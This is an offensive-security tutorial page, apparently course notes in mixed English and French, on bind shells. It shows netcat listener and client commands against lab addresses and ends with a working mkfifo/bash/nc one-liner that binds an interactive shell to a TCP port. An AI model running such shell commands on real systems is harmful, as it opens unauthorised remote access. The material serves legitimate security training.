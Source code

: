 # Bind Shells

***

### <mark style="color:red;">What Is It?</mark>

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

**Bind Example**

![image](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

Comme montré dans l'image, on se connecterait directement à l'adresse IP et au port écoutant sur la cible. Cependant, plusieurs défis peuvent se poser pour obtenir un accès shell de cette manière. Voici quelques éléments à prendre en compte :

1. Il faudrait qu'un "listener" (écouteur) soit déjà démarré sur la cible.
2. Si aucun "listener" n'est démarré, il faudrait trouver un moyen d'en démarrer un.
3. Les administrateurs configurent généralement des règles strictes de pare-feu entrant et de NAT (avec PAT) sur les bords du réseau (exposé publiquement), donc il faudrait déjà être sur le réseau interne.
4. Les pare-feu des systèmes d'exploitation (Windows et Linux) bloquent souvent la plupart des connexions entrantes qui ne sont pas associées à des applications de réseau de confiance.

***

### <mark style="color:red;">Practicing with GNU Netcat</mark>

<mark style="color:orange;">**No. 1: Server - Target starting Netcat listener**</mark>

```shell-session
Target@server:~$ nc -lvnp 7777
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

<mark style="color:orange;">**No. 2: Client - Attack box connecting to target**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

<mark style="color:orange;">**No. 3: Server - Target receiving connection from client**</mark>

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

<mark style="color:orange;">**No. 4: Client - Attack box sending message Hello Academy**</mark>

```bash
mrroboteLiot@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

<mark style="color:orange;">**No. 5: Server - Target receiving Hello Academy message**</mark>

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy 
```

### <mark style="color:red;">Establishing a Basic Bind Shell with Netcat</mark>

<mark style="color:orange;">**No. 1: Server - Binding a Bash shell to the TCP session**</mark>

{% code fullWidth="true" %}
```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
{% endcode %}

{% hint style="info" %}
**C’est une boucle dans le sens où :**

* La machine cible attend des commandes via le tube nommé `/tmp/f` (reçu via Netcat).
* Dès que l'attaquant envoie des commandes, celles-ci passent dans le tube, sont exécutées par Bash, et les résultats sont envoyés de retour à l'attaquant.
* L'attaquant peut continuer à envoyer des commandes, et tant que la connexion est active, cette communication continue.
{% endhint %}
